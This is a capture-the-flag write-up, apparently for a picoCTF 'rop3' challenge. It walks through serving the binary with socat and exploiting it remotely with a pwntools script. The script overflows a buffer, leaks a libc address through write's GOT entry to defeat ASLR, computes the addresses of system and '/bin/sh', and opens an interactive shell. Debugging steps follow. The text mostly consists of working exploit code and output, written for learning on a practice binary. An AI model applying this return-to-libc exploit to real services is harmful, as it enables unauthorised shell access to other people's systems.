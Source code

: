 ### S0lv3d by H4yicl3

similar to local !!
But we use socket to connect the sever !!

so we need to use socat make the sever 
```
socat tcp-listen:4447,reuseaddr,fork exec:./rop3
```

so we need to connect it with python script
```python
from pwn import *

host = "127.0.0.1"
port = 4447

s = remote(host,port)

s.close()
```

try run it
```
hayicle@ubuntu:~/ctf/2013pico$ socat tcp-listen:4447,reuseaddr,fork exec:./rop3 &
[1] 4033
hayicle@ubuntu:~/ctf/2013pico$ python rop3_socket.py 
[+] Opening connection to 127.0.0.1 on port 4447: Done
[*] Closed connection to 127.0.0.1 port 4447
```

ok we make the python script look like rop3_local.py
```python
from pwn import *

host = "127.0.0.1"
port = 4447

padding = "A"*140
#write function : write(1,address,4)
#use IDA to find the address 
write_plt = 0x080483A0
write_got = 0x0804A010
vuln_function = 0x08048474

payload = padding + p32(write_plt) + p32(vuln_function) + p32(1) + p32(write_got) +p32(4)
s = remote(host,port)
#raw_input("?")
s.sendline(payload)

address_aslr = u32(s.recv(4))
print hex(address_aslr)

#use libc-database to find the offset
offset_system =	0x00040310 
offset_binsh  =	0x16084c
offset_write  =	0x000dafe0

address_libc_base = address_aslr - offset_write
address_system 	  =	address_libc_base + offset_system
address_binsh	  = address_libc_base + offset_binsh

payload2 = padding + p32(address_system) + p32(vuln_function) + p32(address_binsh)

s.sendline(payload2)

s.interactive()

s.close()
```

if got problem we beed use gdb to debug that
```
sudo gdb
shell pidof socat
attach pid
breakpoint
```
